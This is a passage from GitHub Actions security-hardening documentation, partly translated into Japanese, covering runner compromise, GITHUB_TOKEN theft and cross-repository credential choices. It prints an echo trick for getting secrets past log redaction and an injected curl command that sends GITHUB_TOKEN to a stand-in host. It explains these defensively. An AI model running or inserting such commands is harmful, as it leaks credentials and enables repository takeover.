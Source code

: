 Although {% data variables.product.prodname_actions %} scrubs secrets from memory that are not referenced in the workflow (or an included action), the `GITHUB_TOKEN` and any referenced secrets can be harvested by a determined attacker.

### Exfiltrating data from a runner

An attacker can exfiltrate any stolen secrets or other data from the runner. To help prevent accidental secret disclosure, {% data variables.product.prodname_actions %} [automatically redact secrets printed to the log](/actions/reference/encrypted-secrets#accessing-your-secrets), but this is not a true security boundary because secrets can be intentionally sent to the log. For example, obfuscated secrets can be exfiltrated using `echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};`. In addition, since the attacker may run arbitrary commands, they could use HTTP requests to send secrets or other repository data to an external server.

### Stealing the job's `GITHUB_TOKEN`

It is possible for an attacker to steal a job's `GITHUB_TOKEN`. The {% data variables.product.prodname_actions %} runner automatically receives a generated `GITHUB_TOKEN` with permissions that are limited to just the repository that contains the workflow, and the token expires after the job has completed. Once expired, the token is no longer useful to an attacker. To work around this limitation, they can automate the attack and perform it in fractions of a second by calling an attacker-controlled server with the token, for example: `a"; set +e; curl http://example.lab?token=$GITHUB_TOKEN;#`.

### Modifying the contents of a repository

The attacker server can use the {% ifversion fpt or ghec %}{% data variables.product.prodname_dotcom %}{% else %}{% data variables.product.product_name %}{% endif %} API to [modify repository content](/actions/reference/authentication-in-a-workflow#permissions-for-the-github_token), including releases, if the assigned permissions of `GITHUB_TOKEN` [are not restricted](/actions/reference/authentication-in-a-workflow#modifying-the-permissions-for-the-github_token).

## リポジトリ間のアクセスを検討する

{% data variables.product.prodname_actions %} is intentionally scoped for a single repository at a time. The `GITHUB_TOKEN` grants the same level of access as a write-access user, because any write-access user can access this token by creating or modifying a workflow file{% ifversion fpt or ghes > 3.1 or ghae or ghec %}, elevating the permissions of the `GITHUB_TOKEN` if necessary{% endif %}. ユーザはリポジトリごとに特定の権限を持っているため、1 つのリポジトリの `GITHUB_TOKEN` に別のリポジトリへのアクセスを許可すると、慎重に実装しない場合 {% data variables.product.prodname_dotcom %} 権限モデルに影響します。 同様に、{% data variables.product.prodname_dotcom %} 認証トークンをワークフローに追加する場合は注意が必要です。これは、コラボレータに誤って広範なアクセスを付与することにより、{% data variables.product.prodname_dotcom %} アクセス許可モデルにも影響を与える可能性があるためです。

[{% data variables.product.prodname_dotcom %} ロードマップ](https://github.com/github/roadmap/issues/74)では、{% data variables.product.product_name %} 内のリポジトリ間アクセスを可能にするフローをサポートする計画がありますが、この機能はまだサポートされていません。 現在、権限のあるリポジトリ間のやり取りを実行する唯一の方法は、ワークフロー内に {% data variables.product.prodname_dotcom %} 認証トークンまたは SSH キーをシークレットとして配置することです。 多くの認証トークンタイプでは特定のリソースへの詳細なアクセスが許可されていないことから、意図したものよりはるかに広範なアクセスを許可できるため、間違ったトークンタイプを使用すると重大なリスクが生じます。

次のリストでは、ワークフロー内のリポジトリデータにアクセスするための推奨アプローチを優先度の高い順に説明しています。

1. **`GITHUB_TOKEN`**
    -  このトークンは、ワークフローを呼び出した単一のリポジトリに意図的にスコープされており、リポジトリの書き込みアクセスを持つユーザと同じレベルのアクセス権を{% ifversion fpt or ghes > 3.1 or ghae or ghec %}持つ{% else %}ことができます{% endif %}。 トークンは各ジョブが開始する前に作成され、ジョブが終了すると期限切れになります。 詳しい情報については「[GITHUB_TOKENでの認証](/actions/configuring-and-managing-workflows/authenticating-with-the-github_token)」を参照してください。
    - 可能な場合は、常に `GITHUB_TOKEN` を使用する必要があります。
2. **リポジトリのデプロイキー**
    - デプロイキーは、単一のリポジトリへの読み取りまたは書き込みアクセスを許可する唯一の認証情報タイプの 1 つであり、ワークフロー内の別のリポジトリとのやり取りに使用できます。 詳しい情報については、「[デプロイキーを管理する](/developers/overview/managing-deploy-keys#deploy-keys)」を参照してください。
    - デプロイキーは Git を使用してリポジトリに複製およびプッシュできるだけであり、REST または GraphQL API とのやり取りには使用できないため、要件に適さない場合があることに注意してください。
3. **{% data variables.product.prodname_github_app %} トークン**
    - {% data variables.product.prodname_github_apps %} は、選択したリポジトリにインストールでき、リポジトリ内のリソースに対する詳細な権限を持つこともできます。 Organization の内部で {% data variables.product.prodname_github_app %} を作成し、ワークフロー内でアクセスする必要があるリポジトリにインストールして、それらのリポジトリにアクセスするためのワークフロー内のインストールとして認証できます。